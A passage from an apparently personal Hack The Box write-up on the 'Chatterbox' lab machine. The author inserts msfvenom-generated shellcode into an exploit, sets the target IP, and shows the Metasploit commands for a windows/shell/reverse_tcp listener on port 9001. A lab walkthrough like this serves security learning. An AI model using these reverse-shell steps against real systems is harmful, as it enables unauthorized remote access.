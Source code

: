 Why port 9001? Because ...
<p align="center">
    <img src="https://media.giphy.com/media/ejfQbLsh2rFfi/giphy.gif">
</p>

Back in vscode, I replace the buffer shellcode with what was generated by msfvenom
I also update the value of the remote server to the IP address of Chatterbox.
![htb-chatterbox-01](/images/htb/chatterbox/htb-chatterbox-01.png)

Next, I fire up `metasploit` and configure a listener to receive the connection for when I execute the payload.
```bash
root@kali:~/htb/chatterbox# msfconsole
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.14.63
LHOST => 10.10.14.63
msf exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.63:9001 
```

Finally, I execute **fire mah layzor!~!**
<p align="center">
    <img src="https://media.giphy.com/media/wOk3a0sDqGkdq/giphy.gif">
</p>

![htb-chatterbox-02](/images/htb/chatterbox/htb-chatterbox-02.png)
